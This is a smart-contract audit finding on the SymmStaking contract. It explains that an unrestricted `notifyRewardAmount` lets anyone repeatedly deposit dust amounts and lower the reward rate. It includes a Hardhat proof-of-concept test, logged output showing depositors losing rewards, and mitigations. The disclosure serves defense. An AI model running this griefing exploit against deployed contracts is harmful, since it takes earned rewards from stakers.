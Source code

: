 Ripe Arctic Gecko

High

# SYMM depositors lose rewards because of the continuously lowered reward rate by repetitive attacks.

### Summary

The missing access control check in `SymmStaking::notifyRewardAmount` allows anyone to lower reward token rate by repetitively passing dust value to SymmStaking contract through [notifyRewardAmount](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275C11-L275C29) call. The per reward token rate decreases everytime someone transfers a dust value through `SymmStaking::notifyRewardAmount`.

### Root Cause

The [SymmStaking::notifyRewardAmount](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L275C1-L292C3) function is as follows:
```solidity
/**
	 * @notice Notifies the contract about new reward amounts.
	 * @param tokens Array of reward token addresses.
	 * @param amounts Array of reward amounts corresponding to each token.
	 */
	function notifyRewardAmount(address[] calldata tokens, uint256[] calldata amounts) external nonReentrant whenNotPaused {
		_updateRewardsStates(address(0));
		if (tokens.length != amounts.length) revert ArraysMismatched();

		uint256 len = tokens.length;
		for (uint256 i = 0; i < len; i++) {
			address token = tokens[i];
			uint256 amount = amounts[i];

			if (amount == 0) continue;
			if (!isRewardToken[token]) revert TokenNotWhitelisted(token);

			IERC20(token).safeTransferFrom(msg.sender, address(this), amount);
			pendingRewards[token] += amount;
			_addRewardsForToken(token, amount);
		}
		emit RewardNotified(tokens, amounts);
	}
```
As we can see there is no access control check in the above function. There is also no dust value check. Anyone at anytime can invoke this function and pass dust value in the staking contract. 

The [SymmStaking::_addRewardsForToken](https://github.com/sherlock-audit/2025-03-symm-io-stacking/blob/d7cf7fc96af1c25b53a7b500a98b411cd018c0d3/token/contracts/staking/SymmStaking.sol#L366) function is as follows:
```solidity
	function _addRewardsForToken(address token, uint256 amount) internal {
		TokenRewardState storage state = rewardState[token];

		if (block.timestamp >= state.periodFinish) {
			state.rate = amount / state.duration;
		} else {
			uint256 remaining = state.periodFinish - block.timestamp;
			uint256 leftover = remaining * state.rate;
			state.rate = (amount + leftover) / state.duration;
		}

		state.lastUpdated = block.timestamp;
		state.periodFinish = block.timestamp + state.duration;
	}
```
Once `SymmStaking::notifyRewardAmount` is invoked the above function recalculates and reset per token reward rate. 

So an attacker can lower the reward rate by passing dust value through `SymmStaking::notifyRewardAmount`. Depositors will lose reward If the attack is replayed indefinitely.

### Internal Pre-conditions

N/A

### External Pre-conditions

N/A

### Attack Path

1) Admin starts 7 days staking program by passing 700 USDC through `SymmStaking::notifyRewardAmount` call. Per day reward is 100 USDC. 
2) A depositor deposits 100 SYMM token. If he is the only depositor, he is expected to earn 700 USDC as reward after 7 days. 
3) Every 24 hours an attacker transfers `0.000001` USDC to the contract by calling `SymmStaking::notifyRewardAmount`. He replays the attack 6 times within a week. 
4) After 6 attacks the per day reward rate comes down from 100 to 39.3984 USDC. 
5) After 7 days the depositor collects reward by calling `claimRewards` function. His expected reward was 700 USDC but he got 461 USDC. 

### Impact

Depositors will lose a significant amount of reward token due to the lowered reward rate caused by the attack.

### PoC

1) Copy and paste the below test code in `symmStaking.behavior.ts`. 
2) run it with `npx hardhat test --grep test_grief_depositors` command. 

Expected output logs:
```{solidity}
Reward RATE(At the beginning): 99.9648 USDC per day.
Attack after 1 day)>>> USDC Supplied: 0.000001, RATE Lowered To: 85.6224 USDC per day.
Attack after 2 day)>>> USDC Supplied: 0.000001, RATE Lowered To: 73.3536 USDC per day.
Attack after 3 day)>>> USDC Supplied: 0.000001, RATE Lowered To: 62.8128 USDC per day.
Attack after 4 day)>>> USDC Supplied: 0.000001, RATE Lowered To: 53.8272 USDC per day.
Attack after 5 day)>>> USDC Supplied: 0.000001, RATE Lowered To: 46.0512 USDC per day.
Attack after 6 day)>>> USDC Supplied: 0.000001, RATE Lowered To: 39.3984 USDC per day.
Deposit token: 100 SYMM, Expected reward: 700 USDC, Claimed reward: 461.0402, Reward loss: 238.9598
```

Test Code:
```{solidity}

		it("test_grief_depositors", async function () {
			const dustAmount = 1;
			const oneDay = 86400;
			const amount = 100;
			const stakingAmount = e(amount);
			const usdcReward = 700e6;
			const attacker = context.signers.user3;
			await usdcToken.connect(admin).transfer(attacker.address, 100);	// attacker having some USDC balance.

			// Admin configuring the reward token and reward amount.
			await symmStaking.connect(admin).configureRewardToken(usdcToken.getAddress(), true)
			await usdcToken.connect(admin).approve(symmStaking.getAddress(), usdcReward);
			await symmStaking.connect(admin).notifyRewardAmount([usdcToken.getAddress()], [usdcReward])

			// user depositing staking token into symmStaking contract.
			await stakingToken.connect(user1).approve(symmStaking.getAddress(), stakingAmount)
			await symmStaking.connect(user1).deposit(stakingAmount, user1.address)
			
			let state = await symmStaking.rewardState(usdcToken.getAddress());
			console.log(`\nReward RATE(At the beginning): ${_ratePerDay(state)} USDC per day.`);

			// attack performed 6 times within a week by transferring only 0.000006 USDC.
			await time.increase(oneDay);	// elapsed 1 day
			await _attack(dustAmount, 1);
			await time.increase(oneDay);	// elapsed 2 day
			await _attack(dustAmount, 2);
			await time.increase(oneDay);	// elapsed 3 day
			await _attack(dustAmount, 3);
			await time.increase(oneDay);	// elapsed 4 day
			await _attack(dustAmount, 4);
			await time.increase(oneDay);	// elapsed 5 day
			await _attack(dustAmount, 5);
			await time.increase(oneDay);	// elapsed 6 day
			await _attack(dustAmount, 6);
			await time.increase(oneDay);	// elapsed 1 week

			const user1BalanceBefore = await usdcToken.balanceOf(user1.address)
			await symmStaking.connect(user1).claimRewards()
			const user1BalanceAfter = await usdcToken.balanceOf(user1.address)
			const claimed = Number(user1BalanceAfter - user1BalanceBefore);
			const loss = usdcReward - claimed;

			console.log(`Deposit token: ${amount} SYMM, Expected reward: ${usdcReward / 1e6} USDC, Claimed reward: ${claimed / 1e6}, Reward loss: ${loss / 1e6}`);

			async function _attack(_amount: any, _dayCount: any) {
				await usdcToken.connect(attacker).approve(symmStaking.getAddress(), _amount);
				await symmStaking.connect(attacker).notifyRewardAmount([usdcToken.getAddress()], [_amount]);
				state = await symmStaking.rewardState(usdcToken.getAddress());
				console.log(`Attack after ${_dayCount} day)>>> USDC Supplied: ${_amount / 1e6}, RATE Lowered To: ${_ratePerDay(state)} USDC per day.`);
			}
			function _ratePerDay(state: any) {
				return Number(state.rate) * oneDay / 1e6;
			}
		})
```

### Mitigation

1) Add a proper access control check in `SymmStaking::notifyRewardAmount` so that only authorized account can start staking program and provide reward tokens for distribution.
2) Add a minimum reward amount check so that the reward rate can't be lowered if a staking program is in progress. 